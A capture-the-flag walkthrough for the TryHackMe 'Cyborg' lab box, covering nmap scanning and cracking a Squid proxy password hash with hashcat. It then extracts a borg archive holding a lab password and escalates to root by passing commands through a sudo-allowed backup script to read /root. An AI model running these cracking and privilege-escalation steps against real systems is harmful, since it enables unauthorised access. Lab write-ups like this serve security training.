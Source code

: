 ```yaml
---

title: Walkthrough - Cyborg	
published: true
---
```


A box involving encrypted archives, source code analysis and more.

[https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

* * *

## Scan the machine, how many ports are open?

- ``sudo nmap -T4 -F 10.10.173.237``

* * *

## What service is running on port 22?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What service is running on port 80?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What is the user.txt flag?

In ``/etc/squid`` found a passwd file with an MD5 (APR) hash - cracked ``hashcat -m 1600 music_archive.hash /usr/share/seclists/Passwords/rockyou.txt`` - squidward

- Website is running Squid Proxy?
- Downloaded archive from ``/admin/`` and extract
- this is a borg archive hence cyborg, so can install borg and extract
- ``borg extract final_archive::music_archive`` with the pass we got 

```shell
┌──(0xskar㉿cocokali)-[~/…/dev/home/alex/Documents]
└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

* * *

## What is the root.txt flag?

```shell
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- backup.sh isnt writable. but checking out the script we can pass it commands.
- ``sudo /etc/mp3backups/backup.sh -c 'ls -las /root'`` 
- ``sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'``

* * * 